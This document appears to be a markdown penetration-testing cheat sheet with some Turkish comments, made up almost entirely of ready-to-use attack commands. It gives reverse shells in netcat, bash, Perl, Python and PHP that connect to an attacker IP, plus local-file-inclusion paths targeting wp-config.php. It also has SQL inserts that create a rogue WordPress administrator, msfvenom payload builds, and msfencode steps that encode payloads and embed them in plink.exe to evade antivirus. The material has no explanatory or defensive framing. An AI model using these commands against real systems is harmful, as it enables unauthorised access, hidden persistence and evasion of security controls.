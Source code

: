 # Useful command

## Scan

### NMAP
```
nmap -A -Pn -n --top-ports 10000 -vvv -oN 192.168.27.68
```
### NIKTO
nikto -h 10.10.10.10:8000


## Get Shell & Listen:

### get shell

```
nc 192.168.56.1 4444 -e /bin/sh
```

the -e flag was not supported on the server’s implementation of netcat.:

```
mknod /tmp/backpipe p 
/bin/sh 0</tmp/backpipe | nc 192.168.56.1 4444 1>/tmp/backpipe
```

### listen:
```
nc -nvlp 4444
```

***

## Exploitation

### LFI

oneExample:
GET /../../../../xampp\php\extras\browscap.ini
GET /../../../../xampp/htdocs/blog/wp-config.php


### DB

#### Connect MariaDB
mysql -u root 10.10.10.10 -p Password@1

SQL Query for Wordpress:
```
INSERT INTO `databasename`.`wp_users` (`ID`, `user_login`, `user_pass`, `user_nicename`, `user_email`, `user_url`, `user_registered`, `user_activation_key`, `user_status`, `display_name`) VALUES ('4', 'demo', MD5('demo'), 'Your Name', 'test@yourdomain.com', 'http://www.test.com/', '2011-06-07 00:00:00', '', '0', 'Your Name');
 
 
INSERT INTO `databasename`.`wp_usermeta` (`umeta_id`, `user_id`, `meta_key`, `meta_value`) VALUES (NULL, '4', 'wp_capabilities', 'a:1:{s:13:"administrator";s:1:"1";}');
 
 
INSERT INTO `databasename`.`wp_usermeta` (`umeta_id`, `user_id`, `meta_key`, `meta_value`) VALUES (NULL, '4', 'wp_user_level', '10');
```

### Unstage & Stage Shell

Unstage Shell: (karşılaması nc -nvlp)
```
msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.52 LPORT=443 -f asp > aspunstage-52.aspx
```
Stage Shell: (karşılaması msfconsole handler)
```
msfvenom -p windows/shell/reverse_tcp LHOST=10.11.0.52 LPORT=443 -f asp > aspstage_52.aspx
```

### Shell example

#### Reverse Shell Cheat Sheat

PHP Reverse Shell
```
msfvenom -p php/reverse_php LHOST=10.10.10.10 LPORT=4444 -e php/base64 -f raw > shell.php
```
Karşılaması

```
msf> use exploit/multi/handler
set payload php/reverse_php
set lhost 10.10.10.10
exploit
```

##### BASH

bash -i >& /dev/tcp/10.0.0.1/8080 0>&1

##### PERL

perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

##### PYTHON

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

##### NETCAT

nc -e /bin/sh 10.0.0.1 1234

##### PHP PentestMonkey

http://pentestmonkey.net/tools/web-shells/php-reverse-shell
```
$ip = '127.0.0.1';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
```

##### PHP Windows-reverse-shell
https://github.com/Dhayalanb/windows-php-reverse-shell

###### Upgrade Shell TTY

python -c 'import pty; pty.spawn("/bin/bash")'  

***

## PRIVILAGE ESCALATION

### C Compile

linux:
> gcc -o hello hello.c

windows 32 bit:
> i686-w64-mingw32-gcc -o hello.exe hello.c

windows 64 bit:
> x86_64-w64-mingw32 -o hello.exe hello.c

### File Transfer

Attacker machine

> python -m SimpleHTTPServer 8000

> python3 -m http.server 8000

## ANTIVIRUS BYPASS

Normal exploit

```
msfpayload windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 X > ~/Desktop/shell_reverse.exe
```

MSF Encoded Exploit

```
msfpayload windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 R | msfencode -e x86/shikata_ga_nai -t exe -c 9 -o ~/Desktop/shell_reverse_msf_encoded.exe
```

MSF Encoded Embedded Exploit

```
msfpayload windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 R | msfencode -e x86/shikata_ga_nai -t exe -c 9 -x /usr/share/windows-binaries/plink.exe -o ~/Desktop/shell_reverse_msf_encoded_embedded.exe
```

Custom Tool:

```
i586-mingw32msvc-gcc reverse.c -o ~/Desktop/custom-reverse.exe -lws2_32
```


